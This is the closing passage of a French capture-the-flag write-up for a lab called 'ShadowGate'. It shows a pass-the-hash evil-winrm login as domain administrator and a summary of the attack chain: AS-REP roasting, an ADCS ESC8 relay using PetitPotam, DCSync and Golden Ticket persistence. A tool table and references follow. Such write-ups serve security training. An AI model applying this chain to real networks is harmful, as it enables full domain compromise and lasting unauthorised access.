

---

## 9. Accès Domain Admin

```bash
evil-winrm -i 10.1.143.92 -u administrator -H '[REDACTED]'
```



**ShadowGate pwned.**

---

## Points clés à retenir

- Une **session SMB null** a suffi pour énumérer la liste complète des utilisateurs du domaine via SAMR.
- `jtrueblood` avait `UF_DONT_REQUIRE_PREAUTH` activé, permettant un **AS-REP Roasting** sans aucun identifiant préalable.
- Le partage **`CertEnroll`** est un indicateur fiable de la présence d'ADCS — toujours vérifier sa présence lors de l'énumération des partages d'un DC.
- **ESC8** ne nécessite que des identifiants de domaine valides et un point d'enrôlement web en HTTP (non-HTTPS) — une mauvaise configuration ADCS très courante.
- `certipy relay` est spécifiquement conçu pour les attaques de relay ADCS et plus simple que `impacket-ntlmrelayx --adcs` dans ce scénario.
- Le compte machine du DC lui-même (`DC01$`) dispose des droits DCSync par défaut — le compromettre équivaut à compromettre le domaine entier.
- Le hash `krbtgt` obtenu permet des attaques **Golden Ticket** pour une persistance de long terme.

---

## Outils utilisés

| Outil | Rôle |
|---|---|
| `nxc` (NetExec) | Énumération SMB, validation des identifiants |
| `impacket-GetNPUsers` | AS-REP Roasting |
| `hashcat` / `john` | Cassage de hash hors-ligne |
| `smbclient` | Navigation dans les partages |
| `certipy-ad` | Énumération ADCS, relay NTLM, PKINIT |
| `PetitPotam` | Coercition d'authentification du DC (MS-EFSRPC) |
| `impacket-secretsdump` | DCSync |
| `evil-winrm` | Accès shell distant |

---

## Références

- [Certified Pre-Owned — SpecterOps (recherche originale ESC8)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [PetitPotam — GitHub (topotam)](https://github.com/topotam/PetitPotam)
- [Certipy — GitHub (ly4k)](https://github.com/ly4k/Certipy)
